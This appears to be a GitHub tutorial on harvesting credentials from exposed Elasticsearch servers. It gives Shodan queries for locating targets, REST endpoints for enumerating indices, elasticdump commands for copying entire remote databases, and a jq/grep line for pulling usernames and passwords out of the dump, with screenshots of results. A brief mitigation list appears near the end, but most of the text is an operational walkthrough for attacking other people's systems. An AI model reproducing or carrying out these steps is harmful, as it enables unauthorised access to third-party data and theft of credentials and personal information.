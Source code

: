 ## Credential Hunting with Shodan via Elastidump
Hello everyone, today we will be talking about how to get credentials without any effort. As everyone knows shodan is a huge scanner for internet assets. 

> The official definition of Shodan: `Shodan is a search engine for Internet-connected device.`

People use shodan to do some research or asset discovery. If you wonder, pentesters use it too. So, I want to explain how do I use this tool. (how to discover elastic targets on the Internet and how to exploit them)

### Shodan Queries

To get the most out of Shodan it's important to understand the search query syntax basically. Because at the end of the day, we will not need any target we need specifically wanted to.

Here are some basic queries for shodan:

> net: xxx.xxx.xxx.xxx/24

This particular query gives us subnet scan results. 

> port: xx 

This particular query gives us specific port scan results.

> country: XX (US or etc.)

This particular query gives us specific scan results for specific country.

> Product: XXX (elastic, MySQL etc.)

This particular query gives us exactly what product you search for.

All these keywords are enough for basic search and exploitation. Although in some situations, we need more targeted info. So, we can chain all keywords to search exactly what we need.

For example:

* `port: <elastic_port_number> country: <specific_country_code`
* `product: <elastic, MySQL> country: <specific_country_code>`

You can check more information on official shodan documents for searching ---> [Shodan  Search Query Fundamentals](https://help.shodan.io/the-basics/search-query-fundamentals)

### Some Elastic Queries on Web Browser (A.K.A REST APIs)

After a bit of searching on shodan, we can access some elasticsearch database pages.

On these pages, we saw some information about elasticsearch database. Yet this is not enough :) We need to enumerate the target elasticsearch database remotely with the browser via adding new directories.

We need to know following endpoints and their meanings:

* `/_cat`: This particular directory shows us usable paths. These paths are important for future enumeration steps.

* `/_cat/indices`: This particular directory shows us indices which are inside the elasticsearch databases. These indices include sensitive information, logs or etc.

* `/_cat/indices/<indice_name>`: This particular directory shows us target indices information. (What is the size of this directory or etc.)

* `/_cat/count`: This particular directory shows us count of data lines. For instance, if you use a Linux system you can calculate the line count with `wc -l` command, this one is exactly the same result.

* `/_cat/health`: This particular directory shows us health of the elasticsearch database.

You can search for more paths and meanings [here](https://www.elastic.co/guide/en/elasticsearch/reference/current/rest-apis.html).

##### PoC for Shodan.io and Web Queries:

> Product Keyword Usage:
![shodanquery](r-ss/shodan-general-search.png)

> Port 9200 - Landing: 
![landing](r-ss/shodan-web.png)

> Reading All Components:
![catall](r-ss/cat-all.png)

> Reading Indices:
![catindices](r-ss/cat-indices.png)

> Reading Spesific Indices:
> ![catindicesname](r-ss/cat-indices-with-name.png)
>
> ![catindicesname2](r-ss/cat-indices-with-name-2.png)

> Reading Health of Elastic:
![cathealth](r-ss/cat-health.png)

> Reading Data Line Count:
![catcount](r-ss/cat-count.png)

After a successful PoC, we need to reach inside the data. So, good news! we have a new part :)

### Dumping Data with Elasticdump

Elasticdump is a very simple and useful tool for dumping data. Normally, this tool is used to make developers' work easier, but in this case we can use it for malicious activity.

The tool is pretty simple. You can follow the below instructions for installation:

1. Do you have npm? (If the answer is no then follow)

```bash 
$ sudo apt install npm
```

2. Do you have elasticdump? (If the answer is no then follow)

```bash 
$ npm install elasticdump -g
```

3. Do you have jq? (If the answer is no then follow)

```bash 
$ sudo apt install jq
```

After installation, we need to dump target indices, then we can use either of following commands:

```bash 
$ elasticdump --input <http(s)://xx.xx.xx.xx:9200/> --output /home/x00/Desktop/test.json
```
or 
```bash 
$ elasticdump --input <http(s)://xx.xx.xx.xx:9200/indices_name> --output /home/x00/Desktop/test-2.json
```

> Is it done? Did I get all data from elasticsearch?
`Yes for sure :p but we need to eliminate (switching on to meaningful information) data inside the JSON file. `
> Why do I need to eliminate data? 
`Because the raw data is very complicated to use on any target. We need to use some little Linux commands to understand all data.`

##### PoC for elasticdump:

> General Usage of Elasticdump:
![elasticdump](r-ss/elasticdump-1.png)

> Results:
![elasticdumpresults](r-ss/elasticdump-results.png)
![elasticdumpresults](r-ss/elasticdump-results-2.png)

### Eliminating Raw Data to Meaningful Things

Actually, this part is pretty simple. You can `cat` the files of your need with `cut`, `grep`, and `awk` commands.

For example:

```bash
$ cat test.json | jq | grep -e "username" -e "password"
```

##### PoC for Data Elimination:

> Basic Grep with jq:
![grep](r-ss/grep.png)

> Extract `password2` Values:
![grep](r-ss/grep-2.png)

> Extract More:
![grep](r-ss/grep-results.png)

### Mitigation
The administrators can apply following suggestions:

* Do not use default ports like 9200 or etc.
* Put elasticsearch behind a firewall.
* Lock down HTTP API with authentication.

### Conclusion

As you can see how simple and effective it is. Any attacker can reach your database without any knowledge or effort. So this a huge risk for your company or project.

We need to minimise risk and secure the systems for a pure internet. Actually this is really simple. We need to focus hardening and beating practice guidelines. Also, we have to perform penetration tests periodically ;)

### References
* [Shodan.io](https://shodan.io/)
* [Shodan Query Basics](https://help.shodan.io/the-basics/search-query-fundamentals)
* [Elasticsearch REST APIs](https://www.elastic.co/guide/en/elasticsearch/reference/current/rest-apis.html)
* [Securing Elasticsearch](https://sematext.com/blog/elasticsearch-security-authentication-encryption-backup/)
* [Guide for Elasticdump](https://blog.logrocket.com/a-practical-guide-to-working-with-elasticdump/)
